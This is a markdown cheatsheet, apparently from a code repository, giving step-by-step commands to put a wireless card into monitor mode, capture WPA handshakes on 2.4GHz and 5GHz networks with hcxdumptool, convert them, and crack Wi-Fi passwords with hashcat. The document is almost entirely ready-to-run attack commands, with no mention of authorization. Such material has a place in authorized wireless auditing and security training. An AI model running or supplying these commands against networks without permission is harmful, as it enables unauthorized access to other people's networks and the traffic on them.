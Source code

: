 
```markdown
# Wi-Fi Handshake Capture & Crack Cheatsheet

## Table of Contents

- [Preliminary Commands & Information Retrieval](#preliminary-commands--information-retrieval)
- [Capture & Conversion Phase](#capture--conversion-phase)
- [Additional Scans & Information](#additional-scans--information)
- [Cracking Phase](#cracking-phase)
- [5GHz Network Capturing Cheat Sheet](#5ghz-network-capturing-cheat-sheet)

## Preliminary Commands & Information Retrieval

### Secure Copy from Remote Device

```bash
scp -r root@172.16.42.1:/root/example.pcapng /home/username/Desktop
```

📖 Downloads files from remote devices using SCP.

### Check Wireless Interfaces

```bash
iwconfig
```

📖 Displays wireless network interface details.

### Kill Interfering Services

```bash
airmon-ng check kill
```

📖 Stops services that might interfere with wireless tools.

---

## Capture & Conversion Phase

### Set Wireless Card to Monitor Mode

```bash
sudo ip link set wlan0 down
sudo iw wlan0 set monitor control
sudo ip link set wlan0 up

# Set back to normal
ip link set wlan0mon down
iwconfig wlan0mon mode managed
ip link set wlan0 up
```

📖 Prepares the wireless card for capture.

### Capture Handshakes with hcxdumptool

```bash
hcxdumptool -i wlan1 -o dumpfile.pcapng --active_beacon --enable_status=15 //OLD
hcxdumptool -i wlan1 -w dumpfile.pcapng --disable_deauthentication --disable_beacon //NEW
hcxdumptool -i wlan1 -w dumpfile.pcapng --disable_deauthentication --rds=1//NEW
```

📖 Captures packets from networks.

### Convert Captured File for Hashcat

```bash
hcxpcapngtool -o hash.hc22000 -E essidlist dumpfile.pcapng
```

📖 Converts packets for password cracking.

---

## Additional Scans & Information

### Scan for Nearby Networks

```bash
hcxdumptool --do_rcascan -i wlan1
```

📖 Scans and displays nearby networks.

---

## Cracking Phase

### Crack with Hashcat

```bash
hashcat -m 22000 hash.hc22000 wordlist.txt
```

📖 Uses hashcat to attempt password cracks.

---

💡 `sudo systemctl stop NetworkManager.service`  
💡 `sudo systemctl stop wpa_supplicant.service`

---

# 5GHz Network Capturing Cheat Sheet

## 1. Install Necessary Tools

```bash
sudo apt-get install hcxdumptool hcxtools
```

## 2. Check for 5GHz Support

```bash
iw list
```

## 3. Enable Monitor Mode

```bash
sudo ip link set wlan0 down
sudo iw dev wlan0 set type monitor
sudo ip link set wlan0 up
```

## 4. Set to 5GHz Channel

```bash
sudo iw dev wlan0 set channel 36
```

## 5. Identify Target Networks

```bash
sudo hcxdumptool -i wlan0 --scan
```

## 6. Capture Traffic

```bash
sudo hcxdumptool -i wlan0 --enable_status=1 -o output.pcapng --filterlist=filterlist.txt --filtermode=2
```

## 7. Analyze Captured Traffic

```bash
hcxpcaptool -z output.hccapx output.pcapng
```

## 8. Troubleshooting

- Check regulatory domain:

```bash
sudo iw reg get
sudo iw reg set US
```

- Check for nearby networks:

```bash
sudo iw dev wlan0 scan | grep -E '^(BSS|channel)'
```

- Check adapter capabilities:

```bash
iw list
```

## 9. Switch Back to 2.4GHz

```bash
sudo ip link set wlan0 down
sudo iw dev wlan0 set type monitor
sudo iw dev wlan0 set channel 6
sudo ip link set wlan0 up
```

## 10. List 2.4GHz Channels

```bash
iw phy phy0 channels
# or
iwlist wlan0 channel
```
```

Feel free to modify or add any additional information!
